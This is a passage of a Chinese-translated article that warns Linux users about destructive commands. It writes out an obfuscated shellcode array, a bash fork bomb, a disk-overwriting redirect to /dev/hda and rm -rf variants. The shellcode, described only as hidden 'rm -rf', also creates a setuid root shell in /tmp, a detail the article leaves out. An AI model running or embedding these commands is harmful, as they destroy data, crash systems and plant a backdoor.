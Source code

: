 
然后，当文件化为乌有时其中也包括了公司的视频。幸运的是，在疯狂敲击 `control -C` 后，在删除太多文件之前，系统管理员中止了这条命令。但这是对你的警告：任何人都可能犯这样的错误。


事实上，绝大部分现代操作系统都会在你犯这些错误之前，用一段醒目的文字警告你。然而，如果你在连续敲击键盘时忙碌或是分心，你将会把你的系统键入一个黑洞。（LCTT 译注：幸运的是，可能在根目录下删除整个文件系统的人太多了额，后来 `rm` 默认禁止删除根目录，除非——你手动加上 `--no-preserve-root` 参数！）


这里有一些更为隐蔽的方式调用 `rm -rf`。思考一下下面的代码：



```
char esp[] __attribute__ ((section(“.text”))) = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;

```

这是什么？这是 16 进制的 `rm -rf` 写法。在你不明确这段代码之前，请千万不要运行这条命令！


### fork 炸弹


既然我们讨论的都是些奇怪的代码，不妨思考一下这一行：



```
:(){ :|: & };:

```

对你来说，这可能看起来有些神秘，但是我看来，它就是那个臭名昭著的 [Bash fork 炸弹](/article-5685-1.html)。它会反复启动新的 Bash shell，直到你的系统资源消耗殆尽、系统崩溃。


不应该在最新的 Linux 系统上做这些操作。注意，我说的是**不应该**。我没有说**不能**。正确设置用户权限，Linux 系统能够阻止这些破坏性行为。通常用户仅限于分配使用机器可用内存。但是如果作为 root 用户的你运行了这行命令（或者它的变体 [Bash fork 炸弹变体](https://unix.stackexchange.com/questions/283496/why-do-these-bash-fork-bombs-work-differently-and-what-is-the-significance-of)），你仍然可以反复虐待服务器，直到系统重启了。


### 垃圾数据重写硬盘


有时候你想彻底清除硬盘的数据，你应该使用 [Darik's Boot and Nuke （DBAN）](https://dban.org/) 工具去完成这项工作。


但是如果仅仅想让你的存储器乱套，那很简单：



```
任意命令 > /dev/hda

```
